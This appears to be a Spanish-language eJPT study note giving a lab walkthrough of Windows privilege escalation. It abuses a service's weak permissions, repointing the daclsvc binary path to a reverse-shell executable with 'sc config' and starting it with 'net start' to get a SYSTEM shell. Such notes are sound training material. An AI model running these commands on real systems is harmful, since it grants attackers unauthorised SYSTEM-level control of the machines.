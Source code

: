 
- Use accesschk.exe para verificar los permisos de la cuenta de "usuario" en el servicio "daclsvc:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Tenga en cuenta que la cuenta de "usuario" tiene el permiso para cambiar la configuración del servicio ( SERVICE_CHANGE_CONFIG ).

- Consulte el servicio y tenga en cuenta que se ejecuta con privilegios de SISTEMA ( SERVICE_START_NAME ):

```
sc qc daclsvc
```

- Modifique la configuración del servicio y configure BINARY_PATH_NAME ( binpath ) en el ejecutable reverse.exe que creó:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

- Inicie un oyente en Kali y luego comience el servicio para generar una carcasa inversa que funcione con privilegios de SISTEMA:

```
net start daclsvc
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Insecure Service Executables]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Service Exploits - Unquoted Service Path]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]